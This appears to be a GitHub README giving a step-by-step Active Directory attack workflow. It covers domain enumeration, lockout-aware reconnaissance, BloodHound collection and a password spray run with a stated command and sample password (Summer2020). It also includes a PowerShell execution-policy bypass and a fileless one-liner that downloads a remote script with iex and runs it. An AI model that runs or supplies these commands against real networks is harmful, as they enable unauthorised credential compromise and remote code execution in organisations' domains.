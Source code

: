 # AD
Queries and code related to Active Directory

Process: 
1. Use the "ADCounts.ps1" script to size up the directory.
2. Use a command like "Net accounts /domain" to see the current password policy (Don't want to lock thouse accounts, eh?)
3. Use GetADPrivGroups.ps1 to get membership in the main AD Elevated groups - see who is who.
4. Could go and get Blood Hound / SharpHound, maybe collect some juicy details... 
5. Assess the current situation before the sparay - try getlockoutinfo.ps1 for details and getlocked.ps1 for lockout status.
6. Then attempt the PW spray with pwspray.ps1

6. A. Need to open up a PowerShell prompt w/ bypass: from command prompt, "PowerShell -exec bypass" should get you there.
6. B. Need to import the script - Type 'Import-Module pwspray.ps1', which is a more paranoid version of dafthack's pw spray script.
6. C. Run the script - Invoke-DomainPasswordSpray -Password Summer2020 -OutFile results.txt
6. D. Observe - Search-ADAccount –LockedOut. Problems? Use control C and punt. Wait a bunch before you try again. 

7. Kick it up a notch maybe? Go fileless?
powershell -nop -c "iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/OnlyTheShadowKnows/AD/master/ADcounts.ps1')"



